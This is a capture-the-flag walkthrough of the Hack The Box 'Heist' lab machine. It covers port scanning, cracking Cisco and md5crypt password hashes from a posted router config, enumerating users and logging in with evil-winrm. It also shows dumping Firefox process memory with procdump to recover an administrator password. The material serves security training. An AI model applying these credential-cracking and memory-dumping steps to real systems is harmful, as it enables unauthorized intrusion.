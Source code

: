 ```yaml
---
title: Hack The Box - Heist Write Up
published: true
---
```

Hey Guys This is my write up about heist from hack the box 
This is an easy windows machine.
# [](#header-3)Machie ip:10.10.10.149
I added it to /etc/hosts
so let's get jump in 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/heist.jpg)

# [](#header-2)Port Scan 
```
root@ch4n:~# nmap -sC -sV 10.10.10.149

Starting Nmap 7.60 ( https://nmap.org ) at 2019-11-02 15:18 EDT
Nmap scan report for 10.10.10.149
Host is up (0.43s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-11-02 04:50:41
|_  start_date: 1600-12-31 19:03:58

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.89 seconds
```
# [](#header-2)Web Page 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/web%20page.png)

After logging in as guest I found this page
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/loggedin.png)

In this page The user Hazard posting the issue about cisco router and he attached the issue with configuration file

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/config.png)

In config.txt it contains some pass and username

I used online tools to crack them

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/cracked(1).png)
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/cracked(2).png)

```
0242114B0E143F015F5D1E161713 - $uperP@ssword
02375012182C1A1D751618034F36415408 - Q4)sJu\Y8qz*A3?d
```
this one can't crack by online tools so I used john
```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

```
root@ch4n:~/Desktop/htb/boxes/heist# john --wordlist=/root/Desktop/rockyou.txt hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)
1g 0:00:01:15 DONE (2019-12-26 15:08) 0.01316g/s 46153p/s 46153c/s 46153C/s stealthy001..steak7893
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
we got the pass 
```
stealth1agent
```

so we got users as 
```
admin
Hazard
administrator 
```

so Let's enumerate user through hazard 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/lookupsid.jpg)

here we got a bunch of usernames

So There are the users
```
Hazard
admin
administrator
support 
Chase 
Jason
Guest
```
Here are the pass

```
$uperP@ssword
Q4)sJu\Y8qz*A3?d 
stealth1agent
```
then I could login as Chase 
```
Chase - Q4)sJu\Y8qz*A3?d
```
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/chase.jpg)
then grab the user.txt

# [](#header-2)Privillege Escalation
I found this 
```
if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') 
```
in 
```
C:\inetpub\wwwroot\login.php 
```

I crack the pass with online tools 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/cracked(3).png)

```
https://md5hashing.net/hash/sha256/91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
4dD!5}x/re8]FBuZ
```
got the password 

```
4dD!5}x/re8]FBuZ
``` 
and login with evil-winrm

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/root.jpg)

and got the shell as system user and grab the root flag

There is another way to get root so I wanna explain about it 

let's go on

I check the services with ps cmd 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/ps.png)

then I saw that firefox is running 

so I used procdump to dump all the data from firefox

You can download from there:[https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/procdump.png)

I just download the dmp file from attack  machine to my machine then grep the pass with strings 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/strings.png)
 
then got the root pass 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/root_pass.jpg)
```
4dD!5}x/re8]FBuZ
```
So This is another way to get the root pass.

That’s it , Feedback is appreciated !

Contact me on 
[Facebook](https://www.facebook.com/SeeKwalCH4N)
[Twitter](https://twitter.com/ChanNyeinWai6)
[Instagram](https://www.instagram.com/chan_nyeinwai/)

Thanks for reading.

<img src="https://www.hackthebox.eu/badge/image/81292" alt="Hack The Box"> 

